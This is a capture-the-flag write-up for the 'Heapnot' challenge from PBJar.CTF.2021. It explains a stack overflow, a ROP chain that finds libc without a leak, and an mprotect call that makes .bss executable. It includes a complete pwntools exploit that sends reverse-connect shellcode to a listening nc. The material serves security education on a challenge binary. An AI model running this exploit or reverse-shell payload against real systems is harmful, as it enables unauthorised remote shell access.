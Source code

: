 **Heapnot**,

was a challenge from PBJar.CTF.2021 written by Rythm (great challenge creator..)

and it was funny & tricky...I did firstblood on it, and it only has 2 solves after 48hours of ctf...so not so easy...

let's check protections first.

![](https://github.com/nobodyisnobody/write-ups/raw/main/PBjar.CTF.2021/pwn/Heapnot/pics/checksec.png)

well , when we launch the program it show a classical heap exploitation menu... add, free, show, etc...

but, as it name implies, it's not about heap :)

let's reverse it..

![](https://github.com/nobodyisnobody/write-ups/raw/main/PBjar.CTF.2021/pwn/Heapnot/pics/reverse1.png)

so well it looks like a heap challenge,  let's check this menu function,  a char nptr[44] is defined on stack, and passed as an argument to the menu() function..

![](https://github.com/nobodyisnobody/write-ups/raw/main/PBjar.CTF.2021/pwn/Heapnot/pics/reverse2.png)

well..

do you see it?  --->>  a1[read(0, a1, 0x4000uLL) - 1] = 0

it reads 0x4000 bytes in a 44 byte buffer... nice buffer overflow, and as there is no canary.. should be easy to exploit...

well not so easy..

if you look at the end of stkspace() function, the program close stdin, stdout, and stderr before exiting...

so no way to have a leak of libc.. or anything else...

the best way when a program is totally blind like this, is to do a reverse shellcode that connect back to you.. like this we can have a shell on the remote box.

**First Step:**

As we can not leak libc address we will use a trick to find it..

> we found a gadget "add rax,rdx; jmp rax" in the program, a gadget used by the C switch table generated by gcc..

the idea is to allocate a bloc > 128kb , to have an address mmapped just before libc returne by malloc in rax,

then we use libcsu gadgets to put the offset we want to jump to in rdx,  (and eventually its arguments in rdi,rsi.. )

and call our gadget... like this we can call any function we want in libc, even if we don't really know libc address base..

but there is still a little problem , as we need rdx for the offset of the function, we can not use the 3rd arguments (that is stored in rdx reg)

if we call a libc function.. that's not funny..

So here comes another usefull gadget, in libc this time..

> "mov qword ptr [rdi], rax ; subsd xmm0, xmm1 ; ret"   at libc offset 0x3accb

well let's imagine, we allocate a big bloc with malloc (which in program .plt function), it return us an address just before libc

then we calculate the offset from our libc gadget "mov [rdi],rax" and put this offset in rdx,

then we call libcsu gadget to put correct values in rdx, and rdi,  and we call our "add rax,rdx / jmp rax" gadget...that calls "mov [rdi],rax"

it will write back the libc address where we want for later use... so we put a .bss address in rdi.. and do it.

Now we have the libc real address write by our "mov [rdi], rax" gadget in a location on .bss.

we use another very usefull gadget, that is almost always present in 64 bit binaries generated by gcc

> 0x0000000000401198 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret

with this gadget we can add a 32bit value to a memory dword, or if this dword is already at zero, it will act as a write primitive..

we can off course set correct rbp & rbx values, with the libcsu gadgets...

so now we modify our libc address we stored on .bss, and add an offset to it , to change it to mprotect address in libc.

like this we can call it with libcsu gadget, without blocking rdx register, and we will call mprotect to change .bss protection to RWX.

ouff !!!!

**Next Step:**

We use our add/write primitive to write our shellcode on the .bss, that is now executable (RWX)

then next, we jump to our shellcode...

our shellcode, will be a reverse connection shellcode that connect to the IP and PORT we want,  

where a "nc -l -p PORT"  will wait for connection back...

if you understand nothing of what I said :)   just study the exploit code in python...

see it in action..

![](https://github.com/nobodyisnobody/write-ups/raw/main/PBjar.CTF.2021/pwn/Heapnot/pics/gotshell.gif)

the exploit code:

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', filename]).decode().split(' ')]

exe = ELF('./heapnot')
rop = ROP(exe)
libc = ELF('./libc.so.6')

host, port = "143.198.127.103", "42009"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

buff = 0x404c00			# a buffer on bss+0xa00 around

# find the various gadget we need
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
gadget_add = next(exe.search(asm('add [rbp-0x3d], ebx')))

gadget_csu = next(exe.search(asm('pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret')))
gadget_csu2 = next(exe.search(asm('mov rdx,r14; mov rsi,r13; mov edi,r12d')))

def add_gadget(gadget_csu, gadget_add, address, val):
  return p64(gadget_csu)+p64(val & 0xffffffff)+p64(address+0x3d)+p64(0)*4+p64(gadget_add)

gadget1 = rop.find_gadget(['ret'])[0]                       # ret
gadget2 = next(exe.search(asm('add rax,rdx; jmp rax;')))

# put the correct address of you listening nc here (IP & port) the port must be reachable from internet
shellc = asm(shellcraft.connect(host='127.0.0.1',port=12490,network='ipv4')+shellcraft.dupsh())

length = len(shellc)
length = (length+3) & 0xffc
shellc = shellc.ljust(length,'\x90')

#libc gadgets,  (write primitive)
gl0 = 0x000000000003accb # mov qword ptr [rdi], rax ; subsd xmm0, xmm1 ; ret

# offset in remote docker is a bit different
if args.REMOTE:
  offset = 0x25ff0
else:
  offset = 0x24ff0

payload = '5 '+'A'*0x2e+p64(0xdeadbeef)
# add ret gadget address to bss 
payload += add_gadget(gadget_csu,gadget_add,buff,gadget1)
# copy shellcode to bss with gadget_add
for i in range(length/4):
  payload += add_gadget(gadget_csu,gadget_add,buff+8+(i*4), u32(shellc[i*4:(i*4)+4]))
# call malloc to have a near libc address in rax, then jump to mprotect with gadget2
payload += p64(pop_rdi)+p64(140000)+p64(exe.symbols['malloc'])+p64(gadget_csu)+p64(0)+p64(1)+p64(buff-8)+p64(0)+p64(offset + gl0)+p64(buff)+p64(gadget_csu2)+p64(0)*7+p64(gadget2)
payload += add_gadget(gadget_csu,gadget_add, buff-8  , (libc.symbols['mprotect'] - gl0))
payload += p64(gadget_csu)+p64(0)+p64(1)+p64(0x404000)+p64(0x1000)+p64(7)+p64(buff-8)+p64(gadget_csu2)+p64(0)*7
# jump to my shellcode
payload += p64(buff+8)

print('now we send our payload...')
p.sendafter('go!")?\n', payload.ljust(0x4000,'\x00'))

p.interactive()
```

*nobodyisnobody still pwning things..*

